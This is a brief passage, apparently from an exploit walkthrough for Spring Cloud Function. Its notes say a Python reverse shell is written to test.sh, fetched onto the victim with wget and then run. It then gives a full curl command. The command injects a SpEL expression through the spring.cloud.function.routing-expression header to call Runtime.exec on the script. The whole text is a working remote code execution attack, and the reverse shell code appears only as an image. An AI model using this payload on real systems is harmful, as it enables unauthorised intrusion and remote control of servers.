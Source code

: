 ![](./IMG/15.png)
- So I write the python reverse shell code into ```test.sh```

![](./IMG/16.png)
- then upload it(by wget) and execute it from victim host.
- Execute
```
curl -X POST  http://0.0.0.0:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("/tmp/test.sh")' --data-raw 'data' -v
```
